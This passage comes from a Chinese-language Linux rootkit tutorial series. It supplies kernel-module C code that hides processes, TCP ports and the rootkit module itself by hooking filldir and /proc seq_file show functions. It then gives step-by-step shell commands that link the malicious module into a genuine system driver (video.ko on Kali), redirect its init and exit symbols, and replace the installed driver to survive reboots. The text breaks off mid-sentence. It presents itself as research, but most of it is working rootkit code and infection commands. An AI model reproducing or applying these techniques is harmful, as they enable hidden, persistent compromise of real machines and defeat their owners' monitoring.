我们可以看到 ext4_ 文件系统的 ``iterate`` 是 ``ext4_readdir`` 。

.. code-block:: c

   const struct file_operations ext4_dir_operations = {
        .llseek         = ext4_dir_llseek,
        .read       = generic_read_dir,
        .iterate    = ext4_readdir,
        .unlocked_ioctl = ext4_ioctl,
   #ifdef CONFIG_COMPAT
        .compat_ioctl   = ext4_compat_ioctl,
   #endif
        .fsync      = ext4_sync_file,
        .open       = ext4_dir_open,
        .release    = ext4_release_dir,
   };

``ext4_readdir`` 经过各种各样的操作之后会通过 ``filldir``
把目录里的项目一个一个的填到 ``getdents``
返回的缓冲区里，缓冲区里是一个个的 ``struct linux_dirent`` 。
我们的隐藏方法就是在 ``filldir`` 里把需要隐藏的项目给过滤掉。

4. 隐藏进程
+++++++++++

Linux 上纯用户态枚举并获取进程信息， `/proc`_ 是唯一的去处。
所以，对用户态隐藏进程，我们可以隐藏掉 `/proc`_ 下面的目录，
这样用户态能枚举出来进程就在我们的控制下了。
读者现在应该些许体会到为什么文件隐藏是本文的重点内容了。

我们修改一下上面隐藏文件时的假 ``filldir`` 即可实现进程隐藏，
如下所示。

.. code-block:: c

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       char *endp;
       long pid;

       // 把字符串变成长整数。
       pid = simple_strtol(name, &endp, 10);

       if (pid == SECRET_PROC) {
           // 是我们需要隐藏的进程，直接返回。
           fm_alert("Hiding pid: %ld", pid);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

实验
****

笔者选择隐藏 pid 1 来做演示。在使用 systemd_ 的系统上，
pid 1 总是 systemd_ ，看下图，
我们可以看到加载我们的模块（ ``pshidko`` ）之后，
``ps -A`` 看不到 systemd_ 了；把 ``pshidko`` 卸载掉，
systemd_ 就显示出来了。

.. image:: images/pshid.png


5. 隐藏端口
+++++++++++

向用户态隐藏端口，
其实就是在用户进程读 `/proc`_ 下面的相关文件获取端口信息时，
把需要隐藏的的端口的内容过滤掉，
使得用户进程读到的内容里面没有我们想隐藏的端口。

具体说来，看下面的表格。

============  ==================  =======================  =================
网络类型      `/proc`_ 文件       内核源码文件             主要实现函数
------------  ------------------  -----------------------  -----------------
TCP_ / IPv4_  ``/proc/net/tcp``   ``net/ipv4/tcp_ipv4.c``  ``tcp4_seq_show``
------------  ------------------  -----------------------  -----------------
TCP_ / IPv6_  ``/proc/net/tcp6``  ``net/ipv6/tcp_ipv6.c``  ``tcp6_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv4_  ``/proc/net/udp``   ``net/ipv4/udp.c``       ``udp4_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv6_  ``/proc/net/udp6``  ``net/ipv6/udp.c``       ``udp6_seq_show``
============  ==================  =======================  =================

本小节以 TCP_ / IPv4_ 为例，其他情况读者可举一反三。

文件的第一行是每一列的含义，
后面的行就是当前网络连接（ socket_ / 套接字）的具体信息。
这些信息是通过 ``seq_file`` 接口在 ``/proc`` 中暴露的。
``seq_file`` 拥有的操作函数如下，我们需要关心是 ``show`` 。

.. code-block:: c

   struct seq_operations {
        void * (*start) (struct seq_file *m, loff_t *pos);
        void (*stop) (struct seq_file *m, void *v);
        void * (*next) (struct seq_file *m, void *v, loff_t *pos);
        int (*show) (struct seq_file *m, void *v);
   };


前面我们提到了隐藏端口也就是在进程读取 ``/proc/net/tcp`` 等文件
获取端口信息时过滤掉不希望让进程看到的内容，具体来讲，
就是将 ``/proc/net/tcp`` 等文件的 ``show``
函数篡改成我们的钩子函数，
然后在我们的假 ``show`` 函数里进行过滤。

我们先看看用来描述 ``seq_file`` 的结构体，即 ``struct seq_file`` ，
定义于 ``linux/seq_file.h`` 。
``seq_file`` 有一个缓冲区，也就是 ``buf`` 成员，
容量是 ``size`` ，已经使用的量是 ``count`` ；
理解了这几个成员的作用就能理解用于过滤端口信息的假
``tcp_seq_show`` 了。

.. code-block:: c

   struct seq_file {
        char *buf; // 缓冲区。
        size_t size; // 缓冲区容量。
        size_t from;
        size_t count; // 缓冲区已经使用的量。
        size_t pad_until;
        loff_t index;
        loff_t read_pos;
        u64 version;
        struct mutex lock;
        const struct seq_operations *op;
        int poll_event;
        const struct file *file;
        void *private;
   };

钩 ``/proc/net/tcp`` 等文件的 ``show``
函数的方法与之前讲隐藏文件钩 ``iterate`` 的方法类似，
用下面的宏可以通用的钩这几个文件 ``seq_file`` 接口里面的操作函数。

.. code-block:: c

   # define set_afinfo_seq_op(op, path, afinfo_struct, new, old)   \
       do {                                                        \
           struct file *filp;                                      \
           afinfo_struct *afinfo;                                  \
                                                                   \
           filp = filp_open(path, O_RDONLY, 0);                    \
           if (IS_ERR(filp)) {                                     \
               fm_alert("Failed to open %s with error %ld.\n",     \
                        path, PTR_ERR(filp));                      \
               old = NULL;                                         \
           }                                                       \
                                                                   \
           afinfo = PDE_DATA(filp->f_path.dentry->d_inode);        \
           old = afinfo->seq_ops.op;                               \
           fm_alert("Setting seq_op->" #op " from %p to %p.",      \
                    old, new);                                     \
           afinfo->seq_ops.op = new;                               \
                                                                   \
           filp_close(filp, 0);                                    \
       } while (0)

最后，我们看看假 ``show`` 函数是如何过滤掉端口信息的。

**注1** ： ``TMPSZ`` 是 150，内核源码里是这样定义的。
换句话说，``/proc/net/tcp``
里的每一条记录都是 149 个字节（不算换行）长，
不够的用空格补齐。

**注2** ： 我们不用 ``TMPSZ`` 也可以，并且会更加灵活，
具体细节请看下面隐藏内核模块时
``/proc/modules`` 的假 ``show`` 函数是怎么处理的。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       char needle[NEEDLE_LEN];

       // 把端口转换成 16 进制，前面带个分号，避免误判。
       // 用来判断这项记录是否需要过滤掉。
       snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
       // real_seq_show 会往 buf 里填充一项记录
       ret = real_seq_show(seq, v);

       // 该项记录的起始 = 缓冲区起始 + 已有量 - 每条记录的大小。
       if (strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)) {
           fm_alert("Hiding port %d using needle %s.\n",
                    SECRET_PORT, needle);
           // 记录里包含我们需要隐藏的的端口信息，
           // 把 count 减掉一个记录大小，
           // 相当于把这个记录去除掉了。
           seq->count -= TMPSZ;
       }

       return ret;
   }

实验
****

我们拿 TCP_ / IPv4_ 111 端口来做演示，
读者需要根据实际测试时的环境做必要改动。
如图，加载 ``pthidko`` 之前，我们可以看到 111 端口处于监听状态；
加载之后，这条记录不见了，被隐藏起来；
把 ``pthidko`` 卸载掉，这条记录又显示出来了。

.. image:: images/pthid.png

6. 隐藏内核模块
+++++++++++++++

`《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
一文里提到了隐藏内核模块的两种方式，
一种可以从 ``lsmod`` 中隐藏掉，
另一种可以从 ``/sys/module`` 里隐藏掉。
然而，这两种隐藏方式都使得模块没法卸载了。
在我们开发的初级阶段，这一点也不方便调试，笔者暂时就不讲这两个了。

我们看看另外的思路。从 ``/sys/module`` 里隐藏的话，
我们使用之前隐藏文件的方式隐藏掉就可以了。
我想聪明的读者应该想到了这点，这再一次证明了文件隐藏的意义。

那么怎么从 ``lsmod`` 里隐藏掉呢。
仔细回想一下，既然 ``lsmod`` 的数据来源是 ``/proc/modules`` ，
那用我们隐藏端口时采用的方式就好了：
钩掉 ``/proc/modules`` 的 ``show`` 函数，
在我们的假 ``show`` 函数里过滤掉我们想隐藏的模块。

粗略地浏览内核源码，我们可以发现，
``/proc/modules`` 的实现位于 ``kernel/module.c`` ，
并且主要的实现函数是 ``m_show`` 。

接下来的问题是，
我们怎么钩这个文件 ``seq_file`` 接口里的 ``show`` 函数呢，
钩法与 ``/proc/net/tcp`` 并不一样，但是类似，请看下面的宏。

.. code-block:: c

   # define set_file_seq_op(opname, path, new, old)                    \
       do {                                                            \
           struct file *filp;                                          \
           struct seq_file *seq;                                       \
           struct seq_operations *seq_op;                              \
                                                                       \
           fm_alert("Opening the path: %s.\n", path);                  \
           filp = filp_open(path, O_RDONLY, 0);                        \
           if (IS_ERR(filp)) {                                         \
               fm_alert("Failed to open %s with error %ld.\n",         \
                        path, PTR_ERR(filp));                          \
               old = NULL;                                             \
           } else {                                                    \
               fm_alert("Succeeded in opening: %s\n", path);           \
               seq = (struct seq_file *)filp->private_data;            \
               seq_op = (struct seq_operations *)seq->op;              \
               old = seq_op->opname;                                   \
                                                                       \
               fm_alert("Changing seq_op->"#opname" from %p to %p.\n", \
                        old, new);                                     \
               disable_write_protection();                             \
               seq_op->opname = new;                                   \
               enable_write_protection();                              \
           }                                                           \
       } while (0)

这个宏与之前写的宏非常类似，唯一的不同，
并且读者可能不能理解的是下面这一行。

.. code-block:: c

   seq = (struct seq_file *)filp->private_data;

我想，读者的问题应该是：
``struct file`` 的 ``private_data`` 成员为什么会是我们要找的
``struct seq_file`` 指针？

请看内核源码。下面的片段是 ``/proc/modules`` 的初始部分，
我们想要做的是钩掉 ``m_show`` 。
纵观源码，引用了 ``modules_op`` 的只有 ``seq_open`` 。

.. code-block:: c

   static const struct seq_operations modules_op = {
        .start  = m_start,
        .next   = m_next,
        .stop   = m_stop,
        .show   = m_show
   };

   static int modules_open(struct inode *inode, struct file *file)
   {
        return seq_open(file, &modules_op);
   }

那我们跟进 ``seq_open`` 看看，
seq_open 的实现位于 ``fs/seq_file.c`` 。


.. code-block:: c

   int seq_open(struct file *file, const struct seq_operations *op)
   {
        struct seq_file *p;

        WARN_ON(file->private_data);

        // 分配一个 ``struct seq_file`` 的 内存。
        p = kzalloc(sizeof(*p), GFP_KERNEL);
        if (!p)
            return -ENOMEM;

        // 读者看到这一行应该就能理解了。
        // 对 ``/proc/modules`` 而言，
        // ``struct file`` 的 ``private_data`` 指向的就是
        // 他的 ``struct seq_file``。
        file->private_data = p;

        mutex_init(&p->lock);
        // 把 ``struct seq_file`` 的 ``op`` 成员赋值成 ``op``，
        // 这个 ``op`` 里就包含了我们要钩的 ``m_show`` 。
        p->op = op;

        // 这儿省略若干代码。

        return 0;
   }

这时候，我们可以看看 ``/proc/modules`` 的假 ``show`` 函数了。
过滤逻辑是很容易理解的；
读者应该重点注意一下 ``last_size`` 的计算，
这也就是笔者在讲端口隐藏时说到我们可以不用 TMPSZ ，
我们可以自己计算这一条记录的大小。
自己计算的灵活性就在于，就算每个记录的大小不是同样长的，
我们的代码也能正常工作。

**注** ： ``/proc/modules`` 里的每条记录长度确实不是一样，有长有短。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       size_t last_count, last_size;

       // 保存一份 ``count`` 值，
       // 下面的 ``real_seq_show`` 会往缓冲区里填充一条记录，
       // 添加完成后，seq->count 也会增加。
       last_count = seq->count;
       ret =  real_seq_show(seq, v);

       // 填充记录之后的 count 减去填充之前的 count
       // 就可以得到填充的这条记录的大小了。
       last_size = seq->count - last_count;

       if (strnstr(seq->buf + seq->count - last_size, SECRET_MODULE,
                   last_size)) {
           // 是需要隐藏的模块，
           // 把缓冲区已经使用的量减去这条记录的长度，
           // 也就相当于把这条记录去掉了。
           fm_alert("Hiding module: %s\n", SECRET_MODULE);
           seq->count -= last_size;
       }

       return ret;
   }

实验
****

我们选择隐藏模块自己（ ``kohidko`` ）来做演示。看下图。
加载 ``kohidko`` 之后，
``lsmod`` 没有显示出我们的模块，
``/sys/module`` 下面也列举不到我们的模块；
并且，右侧 ``dmesg`` 的日志也表明我们的假 ``filldir`` 与假 ``show``
函数起了过滤作用。

.. image:: images/kohid.png

第二部分：未来展望
------------------

至此，我们讨论了大部分作为一个 Rootkit 必备的基本功能；
但是，我们的代码依旧是零散的一个一个的实验，而不是一个有机的整体。
当然，笔者的代码尽可能的做好了布局组织与模块化，
这能给我们以后组装的时候节省一些力气。

在接下来的文章里，一方面，
我们会把这些一个一个零散的实验代码组装成一个能进行实验性部署的
Rootkit。要实现这个目标，
除了组装，我们还需要释放程序（ ``Dropper`` ），
还需要增加远程控制（ ``Command & Control`` ）能力。

再者，我们可能会着手讨论 Rootkit 的检测与反检测。
还有就是讨论当前 Linux Rootkit 的实际发展状态，
比如分析已知用于实际攻击的 Rootkit 所采用的技术，
分析我们的技术水平差异，并从中学习如何实现更先进的功能。

最后，我们还可能改善兼容性与拓展性。
我们现在的代码只在比较新的内核版本（比如 4.5.x / 4.6.x）上测试过。
而且，我们压根就没有考虑已知的兼容性问题。
因而，要想在 3.x，甚至 2.x 上跑，
我们还需要花时间兼容不同版本的内核。
然后，我们还希望往其他架构上发展（比如 ARM_ ）。

**下车，走好。**

第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `This is what a root debug backdoor in a Linux kernel looks like <http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/>`_
- `mncoppola/suterusu: An LKM rootkit targeting Linux 2.6/3.x on x86(_64), and ARM <https://github.com/mncoppola/suterusu>`_
- Notification Chains in Linux Kernel `Part 01 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-part-01.html>`_ `Part 02 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-kernel.html>`_ `Part 03 <http://codingfreak.blogspot.com/2012/02/notification-chains-in-linux-kernel.html>`_

2. 延伸阅读
+++++++++++

- `Suterusu Rootkit: Inline Kernel Function Hooking on x86 and ARM <https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/>`_


.. _IDT: https://en.wikipedia.org/wiki/Interrupt_descriptor_table
.. _Interrupt descriptor table: IDT_
.. _MSR: https://en.wikipedia.org/wiki/Model-specific_register
.. _Model-specific register: MSR_
.. _MSR_LSTAR: http://lxr.free-electrons.com/ident?i=MSR_LSTAR
.. _Inline Hooking: https://en.wikipedia.org/wiki/Hooking#API.2FFunction_Hooking.2FInterception_Using_JMP_Instruction
.. _全志: http://www.allwinnertech.com/
.. _AllWinner: `全志`_
.. _uid: https://en.wikipedia.org/wiki/User_identifier
.. _euid: uid_
.. _/proc: https://en.wikipedia.org/wiki/Procfs
.. _API: https://en.wikipedia.org/wiki/Application_programming_interface
.. _代码仓库: https://github.com/NoviceLive/research-rootkit
.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门: http://www.freebuf.com/news/104270.html
.. _FB: http://www.freebuf.com/
.. _RCE: https://en.wikipedia.org/wiki/Arbitrary_code_execution
.. _LPE: https://en.wikipedia.org/wiki/Privilege_escalation
.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html
.. _ext4: https://en.wikipedia.org/wiki/Ext4
.. _systemd: https://www.freedesktop.org/wiki/Software/systemd/
.. _TCP: https://en.wikipedia.org/wiki/Transmission_Control_Protocol
.. _UDP: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4: https://en.wikipedia.org/wiki/IPv4
.. _IPv6: https://en.wikipedia.org/wiki/IPv6
.. _socket: https://en.wikipedia.org/wiki/Network_socket
.. _ARM: https://www.arm.com/
.. _Kali: https://www.kali.org/


Linux Rootkit 系列五：感染系统关键内核模块实现持久化
====================================================

rectigu@gmail.com, 二〇一六年七月。

**FreeBuf 链接** ： TBD 。

前言
----

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hacking，请不要在物理机玩火。**

概要
----

本文分为两大部分，
第一部分是基于链接与修改符号表感染并劫持
目标内核模块的初始函数与退出函数，使其成为寄生的宿主，
实现隐蔽与持久性。第二部分为结合三个实际例子
（ ``lssec``, ``lssym``, ``setsym`` ）的ELF 文件解析起步，
这一部分提供了我们第一部分进行 Happy Hacking 所需要的工具基础，
``setsym`` ，同时也为更好的理解第一部分提供帮助信息。


第一部分：感染系统关键内核模块实现持久化
----------------------------------------

1. 编译并安装所需的 ELF 文件修改程序
++++++++++++++++++++++++++++++++++++

如果你之前已经 ``git clone`` 过代码仓库，
那么现在就可以简单地 ``git pull`` 来获取最新的改动。


进入 ``lssec.c``, ``lssym.c``, ``setsym.c`` 所在的文件夹，
编译并安装这几个程序。

::

   $ make
   $ sudo make install

这时候，这几个程序就已经安装到 ``/usr/bin`` 目录下了，
可以使用了。

**注 1** ： ``lssec`` 相当于自己造的一个功能不完善的
``readelf -S`` ，
``lssym`` 相当于自己造的一个功能不完善的 ``readelf -s``
或者 ``objdump -t`` 。
因此，只有 ``setsym`` 是必须的，其他两个可以不要。
笔者写 ``lssec`` 与 ``lssym``
是为了在后面讲解 ELF 解析的时候用作起步实例。

**注 2** ：我们会在文章的第二部分拿这几个程序当实际的例子来讲解
ELF 文件的结构与解析。现在，我们直接拿起它们用就好了。

**注 3** ： 这几个程序只支持 64 比特 ELF 文件。
如果你需要支持 32 比特 ELF 文件的工具，除了可以自行修改，
还可以使用参考资料的某篇文章提供的 ``elfchger`` ，
而这个工具只支持 32 比特 ELF 文件。


2. 内核模块函数的重定位与挂钩
+++++++++++++++++++++++++++++

演示用的简单内核模块
********************

我们拿下面的这个简单的内核模块作试验演示。

.. code-block:: c

   int
   noinj_init(void)
   {
       pr_alert("noinj: %s\n", "Greetings the World!");

       return 0;
   }


   void
   noinj_exit(void)
   {
       pr_alert("noinj: %s\n", "Farewell the World!");

       return;
   }


   module_init(noinj_init); // 请注意，这次我们使用了个性化的初始函数名，``noinj_init`` 。
   module_exit(noinj_exit); // 退出函数也是。


   int
   fake_init(void) // 用来演示符号表项挂钩的假初始函数。
   {
       noinj_exit(); // 先调用真的初始函数。

       pr_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

       return 0;
   }


   int
   fake_exit(void) // 用来演示符号表项挂钩的假退出函数。
   {
       noinj_exit(); // 先调用真的退出函数。

       pr_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

       return 0;
   }

编译之后我们可以得到一个 ``noinj.ko`` ，这是一个可重定位文件。
不妨用 ``file`` 查看一下，如下所示。

::

   $ file noinj.ko
   noinj.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=9b497fbb081f193856750e1c2fad93b0c3331edf, not stripped

模块的编译过程与 module_init / module_exit 的分析
*************************************************

生成 ``noinj.ko`` 的大致过程是这样子的：
编译器首先将所有源文件编译成目标文件，
（拿 ``noinj`` 举个例子，就是 ``noinj.c`` -> ``noinj.o`` ），
同时，编译器会自动生成一个源文件，
（在我们的例子中叫 ``noinj.mod.c`` ），
编译之后（即 ``noinj.mod.c`` -> ``noinj.mod.o`` ）
再与已经编译好的目标文件（即 ``noinj.o`` ）链接到一起，
得到一个可重定位文件（即 ``noinj.ko`` ）。

``noinj.mod.c`` 中的内容，
我们主要关心 ``__this_module`` 的定义，如下。

.. code-block:: c

   __visible struct module __this_module
   __attribute__((section(".gnu.linkonce.this_module"))) = { // 将 __this_module 变量放到 .gnu.linkonce.this_module 区间里。
        .name = KBUILD_MODNAME,
        .init = init_module, // 填充初始函数为 init_module
   #ifdef CONFIG_MODULE_UNLOAD
        .exit = cleanup_module, // 填充退出函数为 cleanup_module
   #endif
        .arch = MODULE_ARCH_INIT,
   };

我们在编写内核模块的时候不一定会使用
``init_module`` 与 ``cleanup_module``
作为初始函数与退出函数的名字；而是使用个性化的名字，
比如 ``noinj_init`` 与 ``noinj_exit`` ，
再用 ``module_init`` 与 ``module_exit``
注册我们的个性化命名的函数为初始函数与退出函数。
这时候问题来了， ``module_init`` 与 ``module_exit``
是怎么完成从个性化名字（比如 ``noinj_init`` 与 ``noinj_exit`` ）
到标准名字（即 ``init_module`` 与 ``cleanup_module`` ）的联系呢？
请看源代码，位于 ``linux/module.h`` 。

.. code-block:: c

   /* Each module must use one module_init(). */
   #define module_init(initfn)                  \
        static inline initcall_t __inittest(void)       \
        { return initfn; }                  \
        int init_module(void) __attribute__((alias(#initfn))); // 请看这里，使用 ``GCC`` 编译器的拓展功能，函数别名属性，将个性化名字与标准名字 ``init_module`` 关联起来。

   /* This is only required if you want to be unloadable. */
   #define module_exit(exitfn)                  \
        static inline exitcall_t __exittest(void)       \
        { return exitfn; }                  \
        void cleanup_module(void) __attribute__((alias(#exitfn))); // ``cleanup_module`` 也是。

观察重定位记录与符号表
**********************

下面我们看看这个内核模块的重定位记录： ``readelf -r noinj.ko`` ，
重点看看 ``.gnu.linkonce.this_module`` 的记录，
包含 ``init_module`` 与 ``cleanup_module`` 符号。

::

   Relocation section '.rela.gnu.linkonce.this_module' at offset 0x1aa88 contains 2 entries:
     Offset          Info           Type           Sym. Value    Sym. Name + Addend
   000000000158  001c00000001 R_X86_64_64       0000000000000000 init_module + 0
   0000000002f8  001a00000001 R_X86_64_64       0000000000000020 cleanup_module + 0

请结合符号表（ ``readelf -s noinj.ko`` ）来看。

::

   $ readelf -s noinj.ko
   Symbol table '.symtab' contains 34 entries:
      Num:    Value          Size Type    Bind   Vis      Ndx Name
        0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
        // 这儿省略一部分。
       25: 0000000000000000   832 OBJECT  GLOBAL DEFAULT   11 __this_module
       26: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 cleanup_module // 真的退出函数的记录，名字是 cleanup_module，Value 是 0x20。
       27: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND __fentry__
       28: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 init_module // 真的初始函数的记录，名字是 init_module， Value 是 0x00。
       29: 0000000000000040    46 FUNC    GLOBAL DEFAULT    2 fake_init // 假的初始函数的记录，Value 是 0x40。
       30: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 noinj_init // 真的初始函数的记录，名字是 noinj_init， 但 Value 是 0x00，与 init_module 一样。
       31: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 noinj_exit // 真的退出函数的记录，名字是 noinj_exit， 但 Value 是 0x20，与 cleanup_module 一样。
       32: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND printk
       33: 0000000000000070    46 FUNC    GLOBAL DEFAULT    2 fake_exit // 假的初始函数的记录，Value 是 0x70。


如果我们将 ``init_module`` 符号的值，改成 ``fake_init`` 符号的值，
那么在模块加载进行符号解析、重定位的时候，
``init_module`` 会解析、定位到 ``fake_init`` ，
从而导致我们的假初始函数被执行，
而真的初始函数不会执行（当然，
因为我们假初始函数会调用真的初始函数，所以真的初始函数也会执行，
但是这已经是在我们的掌控之下了）。

``cleanup_module`` 类似。下面我们通过实验来演示这一点。

实验演示符号表项的劫持
**********************

``setsym`` 的用法是这样子的，有两种：一，传递两个位置参数，
第一个是内核模块路径，第二个是符号名，
这时 ``setsym`` 会把这个符号的值打印出来；二，传递三个位置参数，
第一个是内核模块路径，第二个是符号名，第三个是值，
这时 ``setsym`` 会把这个符号的值修改成给定的值。
简言之，如下。

::

   // 第一种用法，获取符号的值。
   setsym <module_path> <symbol_name>

   // 第二种用法，设置符号的值。
   setsym <module_path> <symbol_name> <symbol_value>

实验操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建模块。
   $ make

   // 复制一份副本用于对照演示。
   $ cp noinj.ko infected.ko

   // 将副本的 init_module 符号值改成 fake_init 符号值。
   $ setsym infected.ko init_module $(setsym infected.ko fake_init)

   // 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
   $ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
   // 加载原始的模块。
   $ insmod noinj.ko

   // 卸载载原始的模块。
   $ rmmod noinj

   // 加载修改过的副本。
   $ insmod infected.ko

   // 卸载修改过的副本。
   $ rmmod noinj // 注意模块名要用宿主的，即 noinj

正常情况下，系统应该调用真的初始函数，
而假的初始函数根本没有执行的机会，因为没人调用了它。

但是对比原本与副本加载、卸载过程中 ``dmesg`` 打印出来的消息，
可以得知，副本里的真初始函数是被假初始函数调用的，
而假初始函数则是被系统调用的。
也就是说，完成了对初始函数的劫持 / 挂钩。

效果如下图所示。

.. image:: images/noinj.png


3. 感染一个示例内核模块
+++++++++++++++++++++++

在上一小节，我们演示了将初始函数与退出函数劫持成
同一个模块里的另一个函数，
现在我们看看怎样把一个良民模块的初始函数与退出函数
劫持成另一个恶意模块的初始函数与退出函数。
此外，恶意模块的代码也要注入到良民模块里，
这样，恶意模块才能起作用。

修改 fshid 使其便于寄生
***********************

这次我们用的良民模块跟上面那个 ``noinj`` 没什么本质差别，
换了下名字来彰显代码注入这个话题，所以叫 ``codeinj`` 。

恶意模块的话，就用 `笔者的上一篇文章`_ 里的 ``fshid`` ；
注意，我们需要对 ``fshid`` 作一些必要的改动。
一来，要把初始函数从 ``init_module`` 改成 ``fshid_init`` ，
``cleanup_module`` 也类似改成 ``fshid_exit`` ；
这是为了避免与良民模块出现名字冲突。
二来，我们要在 ``fshid_init`` 里调用良民模块（即 ``codeinj`` ）
的初始函数（即 ``codeinj_init`` ），
类似地， ``fshid_exit`` 里调用 ``codeinj_exit`` ；
这是为了让我们的挂钩对宿主模块（即良民模块）的功能不产生影响，
使别人观察不到我们的恶意模块的存在。

将 fshid 感染到示例模块中
*************************

具体操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建已经修改好适合寄生的恶意模块。
   $ (cd fshid && make --quiet)

   // 构建良民模块（即宿主模块）。
   $ make --quiet

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r codeinj.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 加载被寄生了的宿主。
   $ insmod infected.ko

   // 测试看看那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod codeinj // 注意模块名要用宿主的，即 codeinj

   // 再测试看看那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果
********

结果如图。

.. image:: images/codeinj.png

4. 感染系统中的内核模块
+++++++++++++++++++++++

现在，我们开始做点正事，感染系统关键内核模块搭顺风车实现隐蔽持久化。

确定目标并采集必要信息
**********************

在系统启动的时候，有一些内核模块会自动加载，
Rootkit 的内核模块可以寄生到这些模块上，实现实现隐蔽持久。

通过 ``lsmod`` 随意找个没被使用的模块，笔者就拿 ``video`` 动手了，
并在滚到最新的 Kali （ ``4.6.0-kali1-amd64`` ）上实践，
读者需要根据自己动手的环境进行一些必要的调整。

先找到它的文件。
尝试在 ``/lib/modules/$(uname -r)`` 目录下面查找一下，
``find /lib/modules/$(uname -r) -name video`` 。结果如下。

::

   $ find /lib/modules/$(uname -r) -name video.ko
   /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

接下来尝试判断目标模块的初始函数与退出函数的个性名字。
笔者顺手找到了 ``video`` 模块的源代码，
位于内核源码（笔者手里的版本是 4.6.2）树的
``drivers/acpi/acpi_video.c`` 。
摘取关键片段如下，我们可以看到 ``video`` 模块的初始函数与退出函数是
``acpi_video_init`` 与 ``acpi_video_exit`` 。

::

   module_init(acpi_video_init);
   module_exit(acpi_video_exit);

将 fshid 感染到系统模块中
*************************

一切准备就绪，开始行动。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 复制目标模块到实验的当前目录。
   $ cp /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko .

   // 检查一下我们对初始函数与退出函数的判断是否正确。
   $ readelf -s video.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 把它的初始函数与退出函数的绑定改成 global 。
   // 后面会解释一下这一步的必要性。
   $ objcopy video.ko gvideo.ko --globalize-symbol acpi_video_init --globalize-symbol acpi_video_exit

   // 检查一下 objcopy 是否成功。
   $ readelf -s gvideo.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 构建已经修改好适合寄生的恶意模块。
   // 后面还会解释一下要怎么修改。
   $ (cd fshid && make --quiet)

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r gvideo.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 卸载系统本来就加载了的 video 模块。
   $ rmmod video

   // 加载寄生了恶意模块的 video 的模块。
   // 观察 dmesg 的输出。
   $ insmod infected.ko

   // 测试隐藏的那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod video // 注意模块名要用宿主的，即 video

   // 再测试隐藏的那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果与重启测试
******************

测试效果截图如下。

.. image:: images/video.png

如果测试正常，那么我们可以用被感染的模块替换调原来的那个健康的模块了。

::

   // 备份健康的 video 模块。
   $ mv /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko.bak
   // 把被感染的 video 模块复制到原来健康模块的位置。
   $ cp infected.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

   // 重启系统。
   $ reboot

系统重启之后检查 dmesg 日志并测试是否可以查看到我们的隐藏文件，
以此来判断我们的恶意模块是否正常工作。

看下图，我们可以看到，在系统启动的初期，
